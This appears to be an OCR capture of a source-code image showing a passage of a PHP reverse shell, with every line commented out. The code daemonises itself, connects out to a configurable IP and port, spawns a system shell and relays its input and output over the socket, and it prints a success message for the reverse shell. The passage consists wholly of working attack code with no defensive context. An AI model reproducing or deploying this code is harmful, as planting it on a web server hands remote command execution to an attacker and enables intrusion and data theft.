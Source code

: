```PHP
// 	}
// 	
// 	if ($pid) {
// 		exit(0);  // Parent exits
// 	}
// 	if (posix_setsid() == -1) {
// 		printit("Error: Can't setsid()");
// 		exit(1);
// 	}
// 
// 	$daemon = 1;
// } else {
// 	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
// }
// 
// chdir("/");
// 
// umask(0);
// 
// // Open reverse connection
// $sock = fsockopen($ip, $port, $errno, $errstr, 30);
// if (!$sock) {
// 	printit("$errstr ($errno)");
// 	exit(1);
// }
// 
// $descriptorspec = array(
//    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
//    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
//    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
// );
// 
// $process = proc_open($shell, $descriptorspec, $pipes);
// 
// if (!is_resource($process)) {
// 	printit("ERROR: Can't spawn shell");
// 	exit(1);
// }
// 
// stream_set_blocking($pipes[0], 0);
// stream_set_blocking($pipes[1], 0);
// stream_set_blocking($pipes[2], 0);
// stream_set_blocking($sock, 0);
// 
// printit("Successfully opened reverse shell to $ip:$port");
// 
// while (1) {
// 	if (feof($sock)) {
// 		printit("ERROR: Shell connection terminated");
// 		break;
// 	}
// 
// 	if (feof($pipes[1])) {
// 		printit("ERROR: Shell process terminated");
// 		break;
// 	}
// 
// 	$read_a = array($sock, $pipes[1], $pipes[2]);
// 	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
// 
// 	if (in_array($sock, $read_a)) {
// 		if ($debug) printit("SOCK READ");
// 		$input = fread($sock, $chunk_size);
```
